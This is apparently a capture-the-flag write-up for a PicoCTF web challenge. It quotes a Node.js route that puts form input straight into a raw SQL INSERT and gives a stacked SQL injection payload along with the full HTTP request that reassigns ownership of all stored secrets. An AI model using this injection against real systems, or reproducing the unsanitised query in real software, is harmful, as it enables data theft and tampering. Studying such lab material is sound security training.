

# PicoCTF 2026 Web - Category 

# Enumeration

from source code found admin-id is hardcoded `e2a66f7d-2ce6-4861-b4aa-be8e069601cb`

and from the source code `server.js` found the vulnerable for SQL Injection
```javascript
app.post('/secrets/create', authMiddleware, async (req, res) => {
	const userId = req.userId;
	if (!userId){
		// if user didn't login, redirect to index page
		res.clearCookie('auth_token');
		return res.redirect('/');
	}

	const content = req.body.content;
	const query = await db.raw(
		`INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')` 
	);

	return res.redirect('/');
});
```

That's code send raw input to raw query without sanitation.

Using this payload 
```sql
asd');+UPDATE+secrets+set+owner_id%3d'37d5ac5c-22fc-41c8-8d63-494c89caf510'+where+1%3d1--+-
```

From payload above we get the error like this:
`INSERT INTO secrets(owner_id, content) VALUES ('91813229-84bd-402c-a3e7-7e1465ea6593', 'asd'); UPDATE secrets set owner_id='37d5ac5c-22fc-41c8-8d63-494c89caf510' where 1=1-- -')`

That's mean our user_id is `91813229-84bd-402c-a3e7-7e1465ea6593` so update the payload like bellow 
```bash
POST /secrets/create HTTP/1.1
Host: candy-mountain.picoctf.net:64094
Content-Length: 102
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Origin: http://candy-mountain.picoctf.net:64094
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://candy-mountain.picoctf.net:64094/secrets/create
Accept-Encoding: gzip, deflate, br
Cookie: auth_token=37d5ac5c-22fc-41c8-8d63-494c89caf510
Connection: keep-alive

content=asdasd');+UPDATE+secrets+set+owner_id%3d'91813229-84bd-402c-a3e7-7e1465ea6593'+where+1%3d1--+-
```

we get the flag on the web page :

